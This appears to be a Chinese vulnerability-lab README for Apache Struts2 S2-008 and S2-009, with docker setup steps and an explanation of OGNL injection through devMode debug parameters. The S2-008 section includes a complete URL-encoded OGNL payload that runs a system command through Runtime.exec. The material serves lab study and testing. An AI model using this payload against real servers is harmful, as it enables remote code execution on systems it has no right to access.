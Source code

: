 ------

# S2-008 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.1

漏洞详情: http://struts.apache.org/docs/s2-008.html

## 测试环境搭建

```plain
docker-compose build
docker-compose up -d
```

## 原理

参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

例如在 devMode 模式下直接添加参数`?debug=command&expression=<OGNL EXP>`，会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）：

```plain
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```

------

# S2-009 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.1.1

漏洞详情: http://struts.apache.org/docs/s2-009.html

## 测试环境搭建

```plain
docker-compose build
docker-compose up -d
```

## 原理

前置阅读： 这个漏洞再次来源于s2-003、s2-005。了解该漏洞原理，需要先阅读s2-005的说明：https://github.com/phith0n/vulhub/blob/master/struts2/s2-005/README.md

参考[Struts2漏洞分析之Ognl表达式特性引发的新思路](https://www.t00ls.net/viewthread.php?tid=21197)，文中说到，该引入ognl的方法不光可能出现在这个漏洞中，也可能出现在其他java应用中。
